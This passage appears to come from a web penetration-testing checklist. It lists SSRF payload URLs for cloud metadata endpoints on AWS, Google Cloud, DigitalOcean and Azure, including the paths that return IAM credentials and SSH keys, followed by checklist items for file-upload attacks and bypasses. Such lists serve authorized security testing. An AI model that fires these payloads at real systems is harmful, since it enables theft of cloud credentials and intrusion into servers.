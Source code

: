 ```bash
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```

### Google Cloud
```bash
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

### Digital Ocean
```bash
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```

### Microsoft Azure
```bash
http://169.254.169.254/metadata/v1/maintenance
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&f
ormat=text
```
- [ ] Bypassing via Open redirect

# File Upload
- [ ] Upload the malicious file to the archive upload functionality and observe how the application responds
- [ ] if application supports pdf, DOCX files then test for XXE
- [ ] Upload a file and change its path to overwrite an existing system file
- [ ] large file DOS
- [ ] Metadata leakage
- [ ] ImageMagic Library attacks
- [ ] Pixel Flood attack
 ## Bypass
   - [ ] Null byte `%00` Bypass
   - [ ] Content-Type bypass